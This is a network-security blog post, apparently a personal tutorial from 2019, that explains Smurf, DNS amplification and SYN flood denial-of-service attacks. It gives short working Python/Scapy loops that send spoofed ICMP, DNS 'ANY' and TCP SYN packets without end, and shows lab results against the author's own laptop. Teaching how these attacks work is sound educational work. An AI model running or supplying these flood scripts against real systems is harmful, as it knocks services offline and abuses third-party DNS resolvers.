 ```yaml
---
title: "An Introduction to a Few DoS Attacks"
date: 2019-10-15
toc: true
toc_label: "Table of Contents"
categories:
  - blog
tags:
  - Network Security
  - DNS Amplification
  - ICMP Spoofing
  - SYN Floods
  - Scapy
---
```


# Introduction
In a previous [post][dns], we had a look at spoofing DNS responses, which allowed us to redirect users to a web server running on our machine. In this post, we will look at a few network attacks that can lead to a DoS.

The below section is a basic refresher on ICMP and can be skipped. 

# ICMP
Internet Control Message Protocol (ICMP) is a protocol used primarily to report errors (source quench, unreachable destination, etc.) in sending IP packets. An ICMP packet has the following packet format.

![ICMP-Message-Format](../../assets/images/icmp_format.png)

The two codes relevant to the Smurf attack are:

1. 8 - for echo request message, and
2. 0 - for echo reply message

The above messages are commonly known as the ping messages and are used to test connectivity issues and obtain statistics about the connections of a network. When a host receives an ICMP echo request, it sends back an ICMP echo reply packet to the sender. The sender uses the replies to compute metrics such as the round trip time.  

# Smurf Attack
Since the IP address fields of an ICMP packet can be spoofed, the attacker can send an ICMP request message to the network's broadcast address claiming to be the target, which results in the target receiving the ICMP responses from all the live hosts on the network. If the number of responses is much higher than what the target can handle, it can result in a DoS. This is the idea behind the Smurf attack. 

This is an amplification of the traffic, i.e., for one packet sent by the attacker, the target receives *n* packets, where *n* is the number of hosts that respond. This dramatically improves the attacker's strength in taking the target down.

The following code can be utilized for a smurf attack.

```python
pkt = IP(src = target_ip, dst = broadcast_ip)/ICMP()
while True:
  send(pkt)
```

That's it. The above 3 lines of code are all it takes to simulate a Smurf attack. But most hosts these days are configured not to respond to an ICMP request on the broadcast address. To get over this hurdle, one mechanism is to send each host an invalid packet. On receiving the invalid packet, a host might send back an ICMP response to the target with the details of the error (larger than what attacker sends).

# DNS Amplification
Another way to attack a target is by spoofing DNS queries. Since the size of a DNS query is smaller than the response, the amount of work done by the attacker to send the DNS queries will be significantly lesser than what the target needs to do to process the replies. The following code shows how this can be done.

```python
while True:
  for name_server in g_name_servers:
    ip = IP(src = g_target_ip, dst = name_server)
    udp = UDP(sport=RandShort(), dport=53)
    dns = DNS(rd = 1,
            qd = DNSQR(
              qname = g_domain,
              qtype = "ANY"		# Play around to see which one returns max answer length
            )
          )

    # Create the spoofed DNS query and send it
    pkt = ip/udp/dns
    send(pkt, verbose = False)
```

The above code takes a list of DNS resolvers and queries each one with a spoofed IP address (set to the target). Each DNS resolver then sends the response to the target instead of the attacker. Since the size of the DNS response is much larger than the size of the query, the attacker has the upper hand while trying to overwhelm the target. If the responses are too many, the target will not be able to function, resulting in a DoS.

## DNS Amplification Results
The following image shows the IP address of the attacker (a Raspberry 3B+)

![pi_ifconfig](../../assets/images/syn-flood/pi_ifconfig.png)

and below we can see the target's (my laptop) IP address
![laptop_ipconfig](../../assets/images/syn-flood/laptop_ipconfig.png)

We run the script in the following manner.
![attack](../../assets/images/syn-flood/attack.png)

Looking at the intercepted messages on my laptop, we can see that DNS replies are being received for
queries never sent. We can see that the length of the DNS response is 124 bytes, which is much larger than the query the attacker has sent. 
![wireshark-output](../../assets/images/syn-flood/wireshark-output.png)

# SYN Flood
Moving on to the TCP layer, one attack that can result in a DoS is the SYN flood attack, where an attacker sends a large number of SYNs to various ports of the target and not respond to them. This results in a large number of half-open connections, and before the connections can time out, another SYN is sent to reset the timer. This will eventually lead to a DoS. The following code shows the implementation in python.

```python
# Create the IP layer
ip = IP(src = source_ip, dst = g_target_ip)   # Note that the source_ip can be spoofed

# Create the SYN packet
tcp = TCP(sport=RandShort(), dport=g_dest_ports, flags="S", seq=42)

# Create the packet and continuously send it to all the specified ports
pkt = ip/tcp
while True:
  send(pkt)
```
# SYN Flood Result
The script is run in the following manner.

![syn-flood-pi](../../assets/images/syn-flood/syn-flood-pi.png)

The SYN packets can be seen below.

![syn-flood-wireshark](../../assets/images/syn-flood/syn-flood-wireshark.png)

To specify more ports to send packets to, use the `-c` flag.


The full scripts are available on my github [page][page].

# Disclaimer
The attacks mentioned on any posts on my website are to be tested at your own risk. Please do not use them without the permission of the target host. I will not be responsible for any damage caused by running them.  

[dns]: https://fsec404.github.io/blog/DNS-hijacking/#results
[page]: https://github.com/venkat-abhi/network-attacks